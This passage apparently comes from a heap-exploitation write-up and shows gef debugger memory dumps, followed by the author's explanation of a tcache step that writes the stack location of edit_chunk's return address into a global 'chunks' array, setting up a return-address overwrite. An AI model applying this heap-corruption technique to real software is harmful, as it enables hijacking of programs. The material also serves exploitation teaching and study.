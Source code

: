 ```
0x55911e1cb3c0:    0x0    0x0
0x55911e1cb3d0:    0x0    0x0
0x55911e1cb3e0:    0x0    0x0
0x55911e1cb3f0:    0x0    0x0
0x55911e1cb400:    0x0    0x0
0x55911e1cb410:    0x0    0x0
0x55911e1cb420:    0x0    0x0
0x55911e1cb430:    0x0    0x0
0x55911e1cb440:    0x0    0x0
0x55911e1cb450:    0x0    0x0
0x55911e1cb460:    0x0    0x0
0x55911e1cb470:    0x0    0x0
0x55911e1cb480:    0x0    0x0
0x55911e1cb490:    0x0    0x0
0x55911e1cb4a0:    0x0    0x0
0x55911e1cb4b0:    0x0    0x0
0x55911e1cb4c0:    0x0    0x0
0x55911e1cb4d0:    0x0    0x0
0x55911e1cb4e0:    0x0    0x0
0x55911e1cb4f0:    0x0    0x0
0x55911e1cb500:    0x0    0x0
0x55911e1cb510:    0x0    0x0
0x55911e1cb520:    0x0    0x0
0x55911e1cb530:    0x0    0x0
0x55911e1cb540:    0x0    0x0
0x55911e1cb550:    0x0    0x0
0x55911e1cb560:    0x0    0x0
0x55911e1cb570:    0x0    0x0
0x55911e1cb580:    0x0    0x0
0x55911e1cb590:    0x0    0x0
0x55911e1cb5a0:    0x0    0x0
0x55911e1cb5b0:    0x0    0x0
0x55911e1cb5c0:    0x0    0x0
0x55911e1cb5d0:    0x0    0x0
0x55911e1cb5e0:    0x0    0x0
0x55911e1cb5f0:    0x0    0x0
0x55911e1cb600:    0x0    0x0
0x55911e1cb610:    0x0    0x0
0x55911e1cb620:    0x0    0x0
0x55911e1cb630:    0x0    0x0
```

So we see, we allocated a ptr to chunks (`0x55911df28040`) stored at `0x55911df28050`. We see that the chunks ptr at `0x55911df28048` got cleared out, I believe this was cleared out as part of the tcache key getting cleared when a tcache chunk gets reallocated. Now, let's go ahead, and write to `chunks`, a stack address of where the return address of `edit_chunk` gets written:

```
gef➤  x/10g 0x55911df28040
0x55911df28040 <chunks>:    0x7ffed884faa8    0x0
0x55911df28050 <chunks+16>:    0x55911df28040    0x0
0x55911df28060 <chunks+32>:    0x0    0x0
0x55911df28070 <chunks+48>:    0x0    0x0
0x55911df28080 <chunks+64>:    0x0    0x0
```
